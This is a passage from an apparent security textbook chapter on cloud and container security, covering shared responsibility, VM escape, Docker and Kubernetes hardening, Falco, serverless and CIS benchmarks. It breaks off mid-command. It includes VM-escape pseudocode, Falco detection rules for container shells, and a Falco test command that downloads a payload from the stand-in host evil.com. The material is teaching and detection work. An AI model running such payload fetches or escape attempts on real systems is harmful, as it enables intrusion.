



# Chapter 7: Cloud & Mobile Security

> **Prereq:** Chapter 6 (IAM) — cloud security extends IAM to cloud provider and mobile device identities.
> **Next:** Chapter 8 (Forensics & IR) — incident response in cloud and mobile environments requires specialised processes.

---

## Learning Objectives

- Explain the Shared Responsibility Model across IaaS/PaaS/SaaS with concrete boundaries.
- Analyze hypervisor attack surfaces (VM escape, VM sprawl) and container security controls (seccomp, AppArmor, Pod Security Standards).
- Implement Docker and Kubernetes security best practices including RBAC, network policies, and admission controllers.
- Audit cloud environments using CIS benchmarks, CSPM, CWPP, CASB, and CIEM frameworks.
- Evaluate mobile OS security models (Android SELinux, iOS sandbox, entitlements, code signing).
- Apply OWASP Mobile Top 10 mitigations and perform mobile app security testing (APK decompilation, IPA analysis, traffic interception).
- Analyze real-world cloud and mobile breaches (Capital One 2019, CodeCov 2021, Kaseya 2021, Pegasus FORCEDENTRY).

---

## Chapter at a Glance

| Section | Key Concept | Why It Matters |
|---------|-------------|----------------|
| Cloud Service Models | IaaS/PaaS/SaaS shared responsibility | Know exactly what YOU must secure |
| Virtualization Security | Hypervisor, VM escape, VM sprawl | Isolation boundaries in multi-tenant cloud |
| Container Security | Docker benchmarks, K8s RBAC, Falco | Default container posture is insecure |
| Serverless Security | OWASP Serverless Top 10, event injection | New attack surface: function-as-a-service |
| Cloud Compliance | CIS benchmarks, CSPM/CWPP/CASB/CIEM | Automated posture management at scale |
| Mobile OS Security | SELinux, sandbox, entitlements, code signing | iOS vs Android threat models differ |
| Mobile App Security | OWASP Mobile Top 10, app vetting | Insecure storage and communication dominate |
| MDM/BYOD | Device management, app management | Privacy vs. corporate data protection tension |



---

## Cloud Service Models

### 1. Infrastructure as a Service (IaaS)
**Analogy:** Renting an apartment — the landlord provides the building shell and plumbing (hypervisor, hardware, network). You bring your own furniture, paint the walls, and fix your leaky faucet (OS, middleware, apps, data).

**What YOU secure:** Applications, data, runtime, OS, middleware, network config (security groups, ACLs).
**What provider secures:** Physical datacenter, hardware, storage, networking, hypervisor.

**Example — AWS EC2:**
```bash
# IaaS — you manage the AMI, OS patches, firewall rules
aws ec2 run-instances --image-id ami-0abcdef1234567890 --instance-type t3.large --security-group-ids sg-12345
aws ec2 create-security-group --group-name web-sg --description "Web tier security group"
aws ec2 authorize-security-group-ingress --group-name web-sg --protocol tcp --port 443 --cidr 0.0.0.0/0
```

### 2. Platform as a Service (PaaS)
**Analogy:** Renting a fully furnished apartment — the landlord provides furniture, appliances, and utilities. You just bring your clothes and cook your food (your application code and data).

**What YOU secure:** Application code, data, access configuration (IAM, secrets).
**What provider secures:** Runtime, middleware, OS, hypervisor, hardware, networking.

**Example — AWS Elastic Beanstalk:**
```bash
# PaaS — provider handles OS, runtime, web server
aws elasticbeanstalk create-application --application-name my-app
aws elasticbeanstalk create-environment --application-name my-app --environment-name prod --solution-stack-name "64bit Amazon Linux 2 v5.8.4 running Node.js 18"
```

### 3. Software as a Service (SaaS)
**Analogy:** Staying at a hotel — everything is provided. You just use the service. You're responsible for keeping your room locked (your data, user accounts, access policies).

**What YOU secure:** Data classification, user access management (IAM), client-side security.
**What provider secures:** Everything below data — application, runtime, OS, middleware, hardware, networking.

### Responsibility Comparison Table

| Resource | On-Premises | IaaS | PaaS | SaaS |
|----------|-------------|------|------|------|
| Applications | Customer | Customer | Customer | Provider |
| Data | Customer | Customer | Customer | Customer |
| Runtime | Customer | Customer | Provider | Provider |
| OS | Customer | Customer | Provider | Provider |
| Middleware | Customer | Customer | Provider | Provider |
| Virtualization | Customer | Provider | Provider | Provider |
| Servers/Storage | Customer | Provider | Provider | Provider |
| Networking | Customer | Provider | Provider | Provider |
| Physical Security | Customer | Provider | Provider | Provider |

**Dry Run — Responsibility Decision Flow:**
```
Input: App deployment scenario (Web app on AWS)
1. Is it bare metal? ? On-prem (you own everything)
2. Is it EC2? ? IaaS (you patch OS, provider secures hypervisor)
3. Is it Elastic Beanstalk? ? PaaS (provider patches OS, you patch app)
4. Is it an S3-hosted static site? ? SaaS-like (provider secures storage)
5. Is it WorkDocs? ? SaaS (provider secures everything, you control access)
Output: Responsibility assignment matrix

Complexity: O(1) — direct classification
```

### Edge Cases
- **Container services (EKS, AKS, GKE):** Hybrid model — provider secures control plane, customer secures worker nodes, pods, and container runtime. Responsibility boundary is at the Kubernetes API server.
- **Serverless (Lambda, Functions):** Provider secures execution environment, customer secures function code, dependencies, and IAM permissions. Cold-start containers are provider-managed.
- **Shared VPC (GCP Hosted Projects):** Host project owner secures networking, service project owner secures resources. Split responsibility model.

---

## Cloud Shared Responsibility Model

### Deep Dive — The Six Layers of Cloud Security

```
Layer 1: Physical Security (CSP only)
+-- Data center perimeter
+-- Surveillance, guards, biometrics
+-- Redundant power / cooling

Layer 2: Infrastructure Security (CSP only)
+-- Network segmentation
+-- Hypervisor hardening
+-- Storage encryption at rest (provider-managed keys)

Layer 3: Platform Security (split)
+-- CSP: Runtime environment, managed services
+-- Customer: IAM roles, service configuration

Layer 4: Application Security (customer)
+-- Secure coding
+-- Dependency scanning
--- API gateway configuration
+-- Secrets management

Layer 5: Data Security (customer)
+-- Encryption (KMS, HSM)
+-- Access control policies
+-- Backup / DR

Layer 6: Governance & Compliance (shared)
+-- CSP: Certifications (SOC 2, ISO 27001, FedRAMP)
+-- Customer: Compliance in the cloud (CIS benchmarks, config rules)
```

**Real-World Analogy:** A bank safety deposit box. The bank secures the vault, the building, and the guards (Security *of* the Cloud). You secure your key and what you put in the box (Security *in* the Cloud). If you leave your box unlocked, the bank isn't responsible.

**Numbered Steps — Determining Responsibility:**
1. Identify the service model (IaaS/PaaS/SaaS) from the deployment type.
2. Consult the provider's Shared Responsibility Matrix (SRM) document.
3. For each resource category (compute, storage, network, data, identity), check who has configuration access.
4. If you can change it, you're responsible for securing it.
5. Document the boundary in an internal RACI matrix.
6. Automate compliance checks using CSPM tools (AWS Config, Azure Policy, GCP CSPM).
7. Re-assess when migrating between service models or adding new services.

**A&D Table — Shared Responsibility Model:**

| Aspect | Advantages | Disadvantages |
|--------|-----------|---------------|
| Clarity | Clear accountability boundaries | Boundary can blur with managed services (EKS, Lambda) |
| Flexibility | Customer controls what they can secure | Customer must have cloud security expertise |
| Automation | CSPM tools automate compliance checks | Misconfiguration still possible |
| Cost | No capital expenditure on infra | Unexpected costs from data egress |
| Scalability | Provider handles infinite scale | Customer must architect for scale correctly |

**Edge Cases:**
- **AWS Fargate:** Provider manages the runtime and OS; customer manages task definitions, IAM roles, and container images. The boundary is at the container runtime level.
- **GCP Cloud Run:** Fully managed Knative — provider patches underlying K8s, customer secures service account permissions and container images.
- **Azure AD B2C:** Provider secures the identity platform; customer configures user flows, attribute collection, and API connectors. Shared responsibility for user data.

---

## Virtualization Security

### Hypervisor-Based Virtualization

**Analogy:** An apartment building with a super-strict landlord. The hypervisor is the landlord who ensures tenants (VMs) stay in their own apartments and don't peek into each other's windows. If the landlord goes rogue or gets compromised, every apartment is exposed.

### Hypervisor Attack Surfaces

| Attack Type | Description | Real-World Example |
|-------------|-------------|-------------------|
| VM Escape | Guest breaks out of VM to access hypervisor or host | CVE-2019-2523 (Xen escape) |
| VM Sprawl | Uncontrolled VM creation leading to management gaps | Shadow IT VMs without patches |
| Hyperjacking | Malicious hypervisor installed under the OS | Blue Pill rootkit |
| Side-Channel | Guest observes host or other guests via shared resources | Spectre/Meltdown (cross-VM cache leaks) |
| VM Hopping | Guest accesses another guest via shared memory | Memory deduplication attacks |

### VM Escape — Detailed Walkthrough

**Step-by-Step Attack Flow:**
1. Attacker gains code execution inside a guest VM (e.g., via web app RCE).
2. Attacker probes the hypervisor interface via CPU instructions (cpuid, vmcall).
3. Attacker identifies hypervisor type and version (VMware, Xen, KVM).
4. Attacker exploits a hypervisor vulnerability to break out of the VM.
5. Attacker gains arbitrary code execution on the host OS.
6. Attacker accesses other VMs on the same host or the hypervisor control layer.

**Pseudocode — VM Escape Exploit Concept:**
```
// Concept — DO NOT USE MALICIOUSLY
function attemptVmEscape():
    # Step 1: Detect hypervisor
    if cpuid(hypervisor_present) == true:
        hypervisor_type = cpuid(hypervisor_signature)
    # Step 2: Probe for vulnerability
    for vuln in known_hypervisor_vulns:
        if test_vulnerability(vuln) == true:
    # Step 3: Trigger the exploit
            shellcode = craft_escape_shellcode()
            execute_exploit(vuln, shellcode)
    # Step 4: Check if escaped
            if access_host_memory() == true:
                return "ESCAPED"
    return "FAILED"
```

**Complexity Analysis:**
- **Detection phase:** O(1) — single CPUID instruction
- **Vulnerability probing:** O(n) where n = number of known CVEs
- **Exploit execution:** Depends on exploit complexity
- **Memory access after escape:** O(1) once kernel access gained

### VM Sprawl Security Risks

| Risk | Impact | Mitigation |
|------|--------|-----------|
| Unpatched VMs | Known exploit vectors | VM lifecycle management, patch automation |
| Orphaned VMs | Data leakage | Tagging, automated cleanup, CMDB |
| Configuration drift | Compliance violation | Infrastructure as Code (IaC) |
| Licensing non-compliance | Financial/Legal | CloudHealth, AWS License Manager |
| Ghost VMs (unauthorized) | Hidden attack surface | Cloud inventory scanning (AWS Config) |

**Edge Cases:**
- **Nested virtualization:** Running a hypervisor inside a VM (common for training, containers-on-VM). Additional isolation concerns — can be exploited for hyperjacking.
- **Hardware pass-through (PCIe, GPU):** Direct device assignment bypasses hypervisor mediation. Malicious DMA attacks possible without IOMMU.
- **Memory ballooning:** Hypervisor reclaims guest memory — potential information leak if memory isn't zeroed before reassignment.

### A&D Table — Virtualization Security

| Aspect | Advantages | Disadvantages |
|--------|-----------|---------------|
| Isolation | Strong hardware-enforced isolation | Vulnerable to side-channel attacks |
| Utilization | Over-provisioning saves cost | Resource contention can lead to DoS |
| Live Migration | Zero-downtime maintenance | Migration exposes memory contents in transit |
| Snapshots | Quick recovery | Snapshots can expose old credentials (Golden VM attack) |

---

## Container Security

### Docker Security

**Analogy:** Shipping containers in a port. Each container is sealed and isolated, but they all sit on the same ship (host kernel). If you leave your container unlocked or put dangerous cargo inside (insecure images, secrets in ENV), the entire ship is at risk.

### Docker Security Best Practices

| Practice | Description | Command/Config |
|----------|-------------|----------------|
| Run as non-root | Avoid `USER root` in Dockerfile | `USER appuser` |
| Read-only rootfs | Prevent container modifications | `--read-only` flag |
| Drop capabilities | Remove unnecessary Linux capabilities | `--cap-drop ALL --cap-add NET_BIND_SERVICE` |
| Use seccomp | Restrict available syscalls | `--security-opt seccomp=default.json` |
| Use AppArmor | MAC profile for containers | `--security-opt apparmor=my-profile` |
| No privileged mode | Never use --privileged | `docker run --security-opt no-new-privileges` |
| Image scanning | Scan for known CVEs | `trivy image nginx:latest` |
| Minimal base image | Reduce attack surface | `FROM alpine:3.18` |
| Content trust | Verify image signatures | `export DOCKER_CONTENT_TRUST=1` |
| Secret management | Never bake secrets into images | `docker secret` or env vars from Vault |
| Logging | Enable audit logging | Docker daemon log-driver: json-file |
| Resource limits | Prevent resource exhaustion | `--memory="512m" --cpus="0.5"` |

**Secure Dockerfile Example:**
```dockerfile
FROM alpine:3.18 AS build
RUN apk add --no-cache gcc musl-dev
COPY src/ /src/
RUN gcc -o /app/myapp /src/main.c

FROM alpine:3.18
RUN addgroup -S appgroup && adduser -S appuser -G appgroup
COPY --from=build /app/myapp /app/myapp
USER appuser
WORKDIR /app
EXPOSE 8080
ENTRYPOINT ["/app/myapp"]
```

**docker-bench-security Audit:**
```bash
# Run Docker CIS benchmark
docker run --pid=host --net=host --cap-add=audit_control \
  -v /var/lib:/var/lib:ro -v /var/run/docker.sock:/var/run/docker.sock:ro \
  -v /etc:/etc:ro docker/docker-bench-security

# Sample output (pass/fail for each test):
# [WARN] 2.1 - Ensure network traffic is restricted between containers
# [INFO] 2.2 - Ensure the logging level is set to 'info'
# [PASS] 4.1 - Ensure a user for the container has been created
# [FAIL] 5.4 - Ensure privileged containers are not used
```

**Complexity Analysis — Docker Security:**
- **docker-bench-security scan:** O(n) where n = number of test checks (~100 checks)
- **Image vulnerability scan (Trivy):** O(p + v) where p = packages, v = vulnerability DB entries
- **seccomp profile filtering:** O(1) per syscall — kernel overhead at syscall boundary

### Trivy Container Image Scanning

```bash
# Install Trivy (Windows)
choco install trivy

# Scan an image for vulnerabilities
trivy image nginx:1.21.6

# Scan with severity filter and output formats
trivy image --severity CRITICAL,HIGH --format json -o nginx-scan.json nginx:1.21.6
trivy image --severity MEDIUM --format sarif -o nginx-sarif.json nginx:1.21.6

# Scan container filesystem
trivy filesystem --severity HIGH /path/to/container/rootfs

# Scan a Kubernetes cluster
trivy k8s cluster --severity CRITICAL
```

**Dry Run — Trivy Scan Output Interpretation:**
```
Input: trivy image nginx:1.21.6
Scan starts ?
1. Download vulnerability database from ghcr.io/aquasecurity/trivy-db
2. Extract OS packages from container image layers
3. Match packages against CVE database
4. Found: libcrypto1.1 1.1.1k ? CVE-2022-0778 (CRITICAL, fixed in 1.1.1l)
5. Found: libssl1.1 1.1.1k ? CVE-2022-0778 (CRITICAL, fixed in 1.1.1l)
6. Found: nginx 1.21.6 ? CVE-2022-41741 (HIGH, fixed in 1.23.2)
Output: 2 CRITICAL, 1 HIGH vulnerability found
```

### Docker Security — Edge Cases

- **Rootless Docker (dockerd-rootless):** Docker daemon runs without root privileges. Prevents daemon compromise from escalating to host root. Requires cgroup v2 and specific configuration.
- **User namespace remapping:** Maps container root (UID 0) to a non-privileged host UID. Effective against container escape via UID 0 exploitation.
- **SYS_ADMIN capability:** Extremely dangerous. Grants mount, namespace, and other admin operations inside container. Never grant without careful consideration.
- **Host PID namespace:** `--pid=host` exposes all host processes inside the container. Useful for monitoring but grants process-level visibility.

---

## Kubernetes Security

**Analogy:** A naval fleet. The control plane (API server, etcd) is the command ship. Each worker node is a warship. Pods are crew squads. RBAC policies are security clearances. Network policies are radio frequencies — only authorized units can communicate. Secrets are classified documents locked in the captain's safe.

### Kubernetes Attack Surface

| Component | Attack Vector | Mitigation |
|-----------|--------------|------------|
| API server | Unauthenticated access, privilege escalation | OIDC, RBAC, IP whitelisting |
| etcd | Unencrypted data at rest | etcd encryption, TLS mutual auth |
| Kubelet | Anonymous access, unauthenticated API | --anonymous-auth=false |
| ConfigMaps/Secrets | Base64-only encoded secrets | Encryption at rest, external secrets store |
| Container runtime | Container escape | Pod Security Standards, seccomp |
| Network | East-west traffic interception | Network policies |
| Service accounts | Token theft, over-privileged SA | Auto-mount SA token: false |
| Admission control | Unvalidated pod specs | OPA/Gatekeeper, Kyverno |

### RBAC (Role-Based Access Control)

**Pseudocode — RBAC Configuration Pattern:**
```
Principle: Least privilege for every identity
Entities: User, Group, ServiceAccount
Objects: Role (namespaced), ClusterRole (cluster-wide)
Bindings: RoleBinding, ClusterRoleBinding

create Role("pod-reader"):
    apiGroups: [""]
    resources: ["pods"]
    verbs: ["get", "watch", "list"]

create RoleBinding("read-pods"):
    subjects: [{kind: "User", name: "developer@company.com"}]
    roleRef: {kind: "Role", name: "pod-reader"}
```

```bash
# Create a Role with least privilege
kubectl create role pod-reader --verb=get,list,watch --resource=pods

# Bind role to a service account
kubectl create serviceaccount my-app-sa
kubectl create rolebinding my-app-sa-binding --role=pod-reader --serviceaccount=default:my-app-sa

# Check RBAC permissions
kubectl auth can-i list pods --as=system:serviceaccount:default:my-app-sa

# View RBAC audit
kubectl describe rolebinding my-app-sa-binding
kubectl describe clusterrolebinding view

# ClusterRole for read-only access across all namespaces
kubectl create clusterrole readonly --verb=get,list,watch --resource=pods,services,deployments
kubectl create clusterrolebinding readonly-binding --clusterrole=readonly --user=auditor@company.com
```

### Pod Security Standards (PSS)

Three levels of pod security:

| Level | Description | Key Restrictions |
|-------|-------------|------------------|
| Privileged | Unrestricted pod | No restrictions (only for system-critical) |
| Baseline | Minimal restrictions | No privileged, no hostPID, no hostNetwork |
| Restricted | Strong pod hardening | All Baseline + seccomp=RuntimeDefault, no allowPrivilegeEscalation |

```bash
# Apply Pod Security Standard via label
kubectl label --overwrite ns default pod-security.kubernetes.io/enforce=restricted
kubectl label --overwrite ns default pod-security.kubernetes.io/audit=restricted
kubectl label --overwrite ns default pod-security.kubernetes.io/warn=restricted

# Test enforcement
kubectl run nginx --image=nginx  # Should be blocked if restricted
# Error: violates PodSecurity "restricted:latest":
#   - allowPrivilegeEscalation != false
#   - seccompProfile not set to RuntimeDefault or Localhost
```

**Dry Run — Pod Admission with PSS:**
```
Input: Pod spec requesting privileged=true, hostPID=true
1. API server receives Pod creation request
2. Admission controller checks namespace labels
3. Namespace "default" has enforce=restricted
4. Check 1: containers[0].securityContext.privileged ? true ? FAIL
5. Check 2: containers[0].securityContext.allowPrivilegeEscalation ? not set ? FAIL
6. Check 3: hostPID ? true ? FAIL
7. Pod is REJECTED, user gets AdmissionError
```

### Network Policies

```yaml
# Allow frontend pods to talk to backend pods on port 8080
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: backend-ingress
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: backend
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: frontend
    ports:
    - protocol: TCP
      port: 8080
```

```bash
# Apply network policy
kubectl apply -f backend-network-policy.yaml

# Verify network policy
kubectl describe networkpolicy backend-ingress -n production

# Test connectivity from a different namespace pod
kubectl run test --image=alpine --rm -it -- wget -qO- http://backend-svc.production:8080
# Expected: connection timeout (blocked by network policy)
```

**Complexity Analysis — Network Policies:**
- **Policy creation:** O(1) — declarative YAML
- **Apply to cluster:** O(n) where n = number of pods affected
- **Packet filtering overhead:** O(p) per packet where p = number of matching policies
- **Convergence time:** Seconds (iptables rules updated on each node)

### Secrets Management

```bash
# BAD: Hardcoded secrets in ConfigMap
kubectl create configmap db-config --from-literal=password='supersecret'

# GOOD: Native Secrets with encryption
kubectl create secret generic db-creds --from-literal=password='supersecret'
# Enable encryption at rest for etcd
# Create an EncryptionConfiguration

# BETTER: External secrets operator
# Install External Secrets Operator
kubectl create namespace external-secrets
kubectl apply -f https://raw.githubusercontent.com/external-secrets/.../external-secrets.yaml

# Define a SecretStore connecting to AWS Secrets Manager
apiVersion: external-secrets.io/v1beta1
kind: SecretStore
metadata:
  name: aws-secrets-store
spec:
  provider:
    aws:
      service: SecretsManager
      region: us-east-1

# Define an ExternalSecret that syncs to a K8s Secret
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: db-credentials
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: aws-secrets-store
  target:
    name: db-creds
  data:
  - secretKey: password
    remoteRef:
      key: prod/db/password
```

### Admission Controllers

| Controller | Function | Example |
|-----------|----------|---------|
| PodSecurity | Enforce Pod Security Standards | Block privileged pods |
| LimitRanger | Enforce resource limits | Reject pods without requests/limits |
| ResourceQuota | Enforce namespace quotas | Limit total CPU per namespace |
| OPA/Gatekeeper | Custom admission policies | "All images must come from approved registry" |
| Kyverno | Kubernetes-native policy engine | "Auto-add sidecar proxy to all pods" |
| ValidatingAdmissionWebhook | Custom validation webhook | "Container images must pass CVE scan" |

```yaml
# OPA/Gatekeeper constraint: require all images from trusted registry
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sAllowedRepos
metadata:
  name: require-trusted-registry
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  parameters:
    repos:
      - "docker.io/mycompany/"
```

```bash
# Install Gatekeeper
kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/release-3.14/deploy/gatekeeper.yaml

# Verify admission controller is active
kubectl get validatingwebhookconfigurations gatekeeper-validating-webhook-configuration
```

### kube-bench CIS Benchmark

```bash
# Run kube-bench against your cluster
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml

# Check results
kubectl logs job/kube-bench

# Run kube-bench on a specific node
kubectl run kube-bench --image=aquasec/kube-bench:latest --restart=Never -- node

# Sample results:
# [PASS] 1.1.1 Ensure that the API server pod specification file permissions are set to 644 or more restrictive
# [FAIL] 1.1.2 Ensure that the API server pod specification file ownership is set to root:root
# [FAIL] 2.1 Ensure that the --anonymous-auth argument is set to false
```

### Falco Runtime Security

**Analogy:** A security guard watching every door, window, and hallway in real-time. Falco monitors system calls from the kernel and alerts on suspicious behavior — like someone trying to open the server room door at 3 AM.

**Falco Rule Structure:**
```yaml
# Falco rule: detect shell inside a container
- rule: Terminal shell in container
  desc: A shell was spawned inside a container
  condition: >
    spawned_process and container
    and shell_procs
    and not is_system_proc
    and not user_expected_container_terminal
  output: >
    Shell spawned in container (user=%user.name container_id=%container.id
    image=%container.image.repository shell=%proc.name pid=%proc.pid)
  priority: WARNING
  tags: [container, shell, mitre_execution]
```

**Live Detection of Container Drift:**
```yaml
# Detect unexpected file writes in container
- rule: Write below binary directory
  desc: An attempt to write to a binary directory was detected
  condition: >
    rename or (evt.type in (open,openat,write) and evt.dir=<)
    and fd.directory in (/bin, /usr/bin, /sbin, /usr/sbin)
    and not exe_running_docker_save
    and not user_known_write_below_binary_dir_activities
    and container
  output: >
    File below a known binary directory opened for writing
    (user=%user.name command=%proc.cmdline file=%fd.name container_id=%container.id)
  priority: WARNING
  tags: [filesystem, container, mitre_persistence]
```

```bash
# Install Falco on Ubuntu
curl -fsSL https://falco.org/repo/falcosecurity-packages.asc | gpg --dearmor -o /usr/share/keyrings/falco-archive-keyring.gpg
echo "deb [signed-by=/usr/share/keyrings/falco-archive-keyring.gpg] https://download.falco.org/packages/deb stable main" | tee -a /etc/apt/sources.list.d/falcosecurity.list
apt-get update && apt-get install -y falco

# Run Falco
systemctl start falco
falco -c /etc/falco/falco.yaml

# Test detection
docker run --rm -it alpine sh -c "apk add curl && curl http://evil.com/payload"

# Falco alert output:
# 23:14:05.123456789: Warning Shell spawned in container
# (user=root container_id=abc123 image=alpine shell=sh pid=42)
```

**Complexity Analysis — Falco:**
- **Syscall monitoring:** O(1) per syscall — kernel-level event notification
- **Rule evaluation:** O(n) where n = number of rules per event
- **Performance overhead:** 1-3% CPU on typical workloads
- **Alert throughput:** Hundreds of thousands of events per second

### A&D Table — Container Security

| Aspect | Advantages | Disadvantages |
|--------|-----------|---------------|
| Isolation | Lightweight vs VMs | Shared kernel — less isolation |
| Image scanning | Catch CVEs pre-deployment | False positives, stale DB |
| RBAC | Fine-grained access control | Complex to manage at scale |
| Network policies | Micro-segmentation | Overhead on pod startup |
| Admission control | Prevent misconfigurations | Can block legitimate deployments |
| Runtime security (Falco) | Real-time threat detection | Alert fatigue without tuning |


---

## Serverless Security

**Analogy:** A food truck that appears only when customers order. You don't manage the truck maintenance, fuel, or parking permits (provider manages the runtime). But you're still responsible for the ingredients, recipes, and cleanliness (function code, dependencies, input validation).

### How Serverless Changes the Security Model

| Traditional Security | Serverless Security |
|---------------------|---------------------|
| Patch OS and runtime | Provider patches runtime automatically |
| Network firewall rules | IAM permissions control invocation |
| Encrypt disks | Provider encrypts ephemeral storage |
| Hardened VM images | Immutable function code |
| Always-on attack surface | Functions run only on invocation |
| IP-based access control | Event source-based access control |

### OWASP Serverless Top 10

| Rank | Vulnerability | Description | Mitigation |
|------|--------------|-------------|------------|
| 1 | Event Injection | Attacker injects malicious event data to alter function behavior | Input validation, schema validation |
| 2 | Broken Authentication | Weak or missing function-level auth | IAM authorizers, API Gateway auth |
| 3 | Insecure Deployment | Overly permissive IAM roles, unused triggers | Least privilege IAM, function URL restriction |
| 4 | Data Exposure | Sensitive data in environment variables, logs | Secrets Manager, encrypted env vars |
| 5 | Improper Exception Handling | Stack traces in error responses | Global error handler, custom error formatting |
| 6 | Logging & Monitoring Gaps | No audit trail for function invocations | CloudWatch/CloudTrail, X-Ray tracing |
| 7 | Insecure 3rd-Party Dependencies | Vulnerable npm/pip/Maven packages | Dependency scanning (Snyk, Dependabot) |
| 8 | Denial of Service | Resource exhaustion via concurrent invocations | Function concurrency limits, API Gateway throttling |
| 9 | Excessive Permissions | Overly broad IAM roles (wildcard actions) | IAM policy simulation, Access Analyzer |
| 10 | Business Logic Flaws | Account creation abuse, coupon misuse | Rate limiting, idempotency tokens |

### Event Injection — Deep Dive

**Attack Flow:**
1. Attacker identifies a function triggered by S3 upload, SQS message, or HTTP event.
2. Attacker crafts a malicious event payload (SQL injection in filename, command in metadata, XSS in query params).
3. Attacker sends the payload via function's event source.
4. Function processes the payload without validation.
5. Attacker achieves code execution, data exfiltration, or privilege escalation.

**Secure AWS Lambda Function:**
```javascript
// Secure Lambda handler with input validation
const { SecretsManager } = require('aws-sdk');
const Joi = require('joi');

// Schema validation
const eventSchema = Joi.object({
    userId: Joi.string().uuid().required(),
    action: Joi.string().valid('CREATE', 'UPDATE', 'DELETE').required(),
    data: Joi.object().max(5).required()
});

exports.handler = async (event, context) => {
    // Step 1: Validate event structure
    const { error, value } = eventSchema.validate(event);
    if (error) {
        console.error('Validation failed', error.details);
        return { statusCode: 400, body: 'Invalid request structure' };
    }

    // Step 2: Verify IAM authorization
    const authContext = context.identity;
    if (!authContext || !authContext.cognitoIdentityId) {
        return { statusCode: 403, body: 'Unauthorized' };
    }

    // Step 3: Retrieve secrets (not env vars)
    const secrets = await SecretsManager.getSecretValue({
        SecretId: process.env.DB_SECRET_ARN
    }).promise();

    // Step 4: Apply rate limiting via idempotency
    // (Requires DynamoDB table for idempotency keys)

    // Step 5: Execute business logic
    const result = await processTransaction(value, secrets.SecretString);
    return { statusCode: 200, body: JSON.stringify(result) };
};
```

**Complexity Analysis — Serverless Security:**
- **Input validation:** O(n) where n = payload field count
- **IAM authorization lookup:** O(1) — AWS Cognito lookup
- **Secrets retrieval:** O(1) — cached after first invocation
- **Cold start overhead:** 100-500ms additional (JVM: up to 6 seconds)

### Edge Cases — Serverless

- **Event source replay:** SQS events are retried. Ensure idempotency — same event processed twice should produce same result.
- **Warm container reuse:** Environment variables from previous invocation persist. Never store per-request secrets in mutable global state.
- **Side-effect cleanup:** Temporary file writes in `/tmp` persist across invocations. Always clean up sensitive files.
- **Function chaining:** Lambda invoking Lambda. Deep chains increase blast radius and make tracing difficult. Use Step Functions instead.
- **VPC Lambda:** Function in a VPC needs a NAT Gateway for internet access. Cold start latency increases (ENI attachment).

---

## Cloud Compliance

### CIS Benchmarks for AWS, Azure, GCP

The Center for Internet Security (CIS) publishes benchmark documents with prescriptive configuration checks for cloud platforms.

| CIS Benchmark | Number of Controls | Key Areas |
|---------------|-------------------|-----------|
| AWS Foundations | ~150+ | IAM, S3, logging, monitoring, networking |
| Azure Foundations | ~120+ | Azure AD, RBAC, storage, networking |
| GCP Foundations | ~100+ | IAM, GCS, GKE, networking, logging |

**AWS CIS Benchmark — Top Recommendations:**
```bash
# 1.1 — Avoid root user usage
aws iam get-account-summary
aws iam get-credential-report

# 1.3 — Enable IAM password policy
aws iam update-account-password-policy --minimum-password-length 14 \
